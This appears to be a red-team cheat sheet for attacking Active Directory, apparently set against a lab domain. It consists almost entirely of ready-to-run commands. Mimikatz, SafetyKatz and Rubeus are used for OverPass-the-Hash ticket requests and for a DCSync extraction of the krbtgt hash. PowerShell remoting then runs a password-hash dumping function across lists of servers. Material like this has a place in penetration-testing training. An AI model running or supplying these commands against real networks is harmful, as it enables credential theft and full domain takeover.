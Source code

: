 

#### OverPass-The-Hash (Pass-the-Key)

<pre class="language-powershell"><code class="lang-powershell">#Invoke-Mimikatz
#To perform OPTH with AES256 encryption
Invoke-Mimikatz -Command "sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:&#x3C;aes256key> /run:powershell.exe"

#SafetyKatz
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:&#x3C;aes256keys> /run:cmd.exe"

#Rubeus
#For OPTH using NTLM hashes (doesn’t require elevation)
Rubeus.exe asktgt /user:administrator /rc4:&#x3C;ntlmhash> /ptt
<strong>
</strong><strong>#For OPTH with AES256 encryption (requires elevation):
</strong>Rubeus.exe asktgt /user:administrator /aes256:&#x3C;aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
</code></pre>

#### DCSync Attack (Extracting Credentials from the Domain Controller)

<pre class="language-powershell"><code class="lang-powershell">#Extracting the krbtgt Hash
<strong>#To obtain the krbtgt hash using DCSync (requires Domain Admin privileges):
</strong>Invoke-Mimikatz -Command "lsadump::dcsync /user:us\krbtgt"

#SafetyKatz
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt"
#By default, Domain Admin privileges are required to execute this attack.
</code></pre>

#### **Start Session**

```powershell
##PSSession
#Creates a new session
New-PSSession

#Interacts with a remote session
Enter-PSSession

##Invoke-Command
#Run a command remotely
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

#Execute a script from a file:
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)

#Run a locally defined function on remote machines:
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
Pass arguments to a remote function (only positional arguments allowed):
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList <args>
Maintain a stateful session:
$Sess = New-PSSession -ComputerName Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
```
